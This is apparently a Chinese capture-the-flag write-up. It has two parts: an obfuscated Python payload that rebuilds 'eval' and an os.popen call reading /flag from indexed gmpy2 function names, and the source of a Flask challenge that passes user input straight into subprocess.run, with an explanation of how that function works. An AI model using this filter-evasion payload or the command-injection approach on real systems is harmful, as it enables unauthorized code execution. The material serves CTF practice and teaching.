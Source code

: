 ```python
        # payload加上函数中指定下标，如 "invert"[3] 就是字母e,注意末尾加上加号+

payload = payload[:-1] + ")" # 将末尾+替换为空格
print(payload)
```
payload:
```python
gmpy2.__builtins__['invert'[3]+'invert'[2]+'fac'[1]+'lcm'[0]]("xbit_mask"[4]+"xbit_mask"[4]+"xbit_mask"[2]+"xmpz"[1]+"xmpz"[2]+"zero"[3]+"zero"[2]+"zeta"[2]+"xbit_mask"[4]+"xbit_mask"[4]+"("+"'"+"zero"[3]+"xbit_mask"[7]+"'"+")"+"."+"xmpz"[2]+"zero"[3]+"xmpz"[2]+"zeta"[1]+"yn"[1]+"("+"'"+"unpack"[4]+"zeta"[3]+"zeta"[2]+" "+"/"+"root_of_unity"[6]+"rint_floor"[6]+"zeta"[3]+"sign"[2]+"'"+")"+"."+"zero"[2]+"zeta"[1]+"zeta"[3]+"t_mod_2exp"[4]+"("+")")
```





### easyPytHon_P            

```python
源码在此：

from flask import request
cmd: str = request.form.get('cmd')
param: str = request.form.get('param')
# ------------------------------------- Don't modify ↑ them ↑! But you can write your code ↓
import subprocess, os
if cmd is not None and param is not None:
    try:
        tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
        print('Done!')
    except subprocess.TimeoutExpired:
        print('Timeout!')
    except:
        print('Error!')
else:
    print('No Flag!')
```

这题就是命令执行，但是我们不知道 `subprocess.run()` 是什么东西

其实就是执行命令的一个函数。



> **subprocess.run()**
>
> 第一个args是最重要的，它就是要执行的命令。注意它必须是一个列表，里面的内容包括了命令和命令参数，比如：
>
> ```python
> subprocess.run(["ls", "-l", "/usr/bin"])
> ```
>
> 那么题中就是取cmd中前三个为命令，param为命令参数，`__file__`是当前文件路径（当param中传入的也是文件路径参数时，命令行会根据这两个路径参数分别执行成两条命令，输出两个结果）；第二个cwd为当前工作路径，**os.getcwd()**就是返回进程的当前工作目录，timeout=5,就是超时时间最大设置为5s。
